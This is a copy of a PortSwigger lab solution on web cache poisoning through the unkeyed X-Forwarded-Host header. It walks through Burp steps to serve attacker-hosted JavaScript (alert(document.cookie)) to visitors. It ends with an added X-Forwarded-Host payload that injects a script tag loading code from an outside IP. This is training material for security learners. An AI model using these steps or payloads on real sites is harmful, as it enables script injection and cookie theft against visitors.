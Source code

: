 Lab: Web cache poisoning with an unkeyed header
PRACTITIONER

##
#
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header
#
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/special-http-headers
#
##


This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

 Hint
ACCESS THE LAB
 Solution
With Burp running, load the website's home page
In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the GET request for the home page and send it to Burp Repeater.
Add a cache-buster query parameter, such as ?cb=1234.
Add the X-Forwarded-Host header with an arbitrary hostname, such as example.com, and send the request.
Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at /resources/js/tracking.js.
Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.
Go to the exploit server and change the file name to match the path used by the vulnerable response:

/resources/js/tracking.js
In the body, enter the payload alert(document.cookie) and store the exploit.
Open the GET request for the home page in Burp Repeater and remove the cache buster.
Add the following header, remembering to enter your own exploit server ID:

X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and X-Cache: hit in the headers.
To simulate the victim, load the poisoned URL in the browser and make sure that the alert() is triggered. Note that you have to perform this test before the cache expires. The cache on this lab expires every 30 seconds.
If the lab is still not solved, the victim did not access the page while the cache was poisoned. Keep sending the request every few seconds to re-poison the cache until the victim is affected and the lab is solved.

//
//
//


X-Forwarded-Host: 127.0.0.1"> </script> <script src="http://10.10.69.69/xx.js"></script> <!--

